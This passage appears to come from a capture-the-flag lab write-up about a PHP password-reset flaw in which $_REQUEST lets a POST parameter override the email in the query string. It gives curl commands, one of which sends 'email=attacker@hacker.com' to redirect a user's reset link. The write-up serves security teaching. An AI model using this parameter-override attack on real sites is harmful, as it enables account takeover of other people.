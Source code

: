 ![Reset email initiated](../screenshots/reset-email-sent.png)

Internally, the app retrieves the account via the query string but later uses PHP `$_REQUEST`, which merges GET and POST (POST wins).

![GET and POST merged via $_REQUEST](../screenshots/request-merge.png)

This enables overriding the email by adding `email` in the POST body.

Request 1 (legitimate step):

```bash
curl 'http://10.201.81.187/customers/reset?email=robert%40acmeitsupport.thm' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=robert'
```

Exploit (override email in POST, due to `$_REQUEST` behavior favoring POST):

```bash
curl 'http://10.201.81.187/customers/reset?email=robert%40acmeitsupport.thm' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=robert&email=attacker@hacker.com'
```
